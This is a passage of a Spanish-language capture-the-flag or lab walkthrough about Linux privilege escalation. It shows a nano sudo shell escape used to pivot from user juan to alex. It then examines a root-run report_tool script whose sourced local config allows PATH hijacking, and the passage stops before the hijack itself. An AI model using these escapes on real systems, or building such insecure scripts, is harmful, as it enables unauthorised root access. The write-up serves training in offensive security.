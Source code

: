 Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for juan on c5f5169bfe06:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User juan may run the following commands on c5f5169bfe06:
    (alex) NOPASSWD: /bin/nano
```

Vemos que podemos ejecutar como el usuario `alex` el binario `nano` por lo que podremos ser el usuario `alex` de esta forma:

```shell
sudo -u alex nano
^R^X
reset; bash 1>&0 2>&0
```

Y con esto ya seremos dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for alex on c5f5169bfe06:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User alex may run the following commands on c5f5169bfe06:
    (ALL) NOPASSWD: /usr/local/bin/report_tool
```

Vemos que podemos ejecutar el binario `report_tool` como el usuario `root` por lo que vamos a investigar que hace dicho binario.

Si lo leemos veremos lo siguiente:

```bash
#!/bin/bash
#
# report_tool: muestra la fecha o, si existe override, usa tu PATH local

CONF_FILE="./report_tool.conf"
if [ -r "$CONF_FILE" ]; then
    source "$CONF_FILE"
    if [ -n "$OVERRIDE_PATH" ]; then
        export PATH="$OVERRIDE_PATH:$PATH"
    fi
fi
exec date
```

Vemos una vulnerabilidad muy grave, podemos crear un archivo llamado `report_tool.conf` y dentro de el, exportar el `OVERRIDE_PATH` con un `Path Hijacking` por lo que podremos realizar lo siguiente:
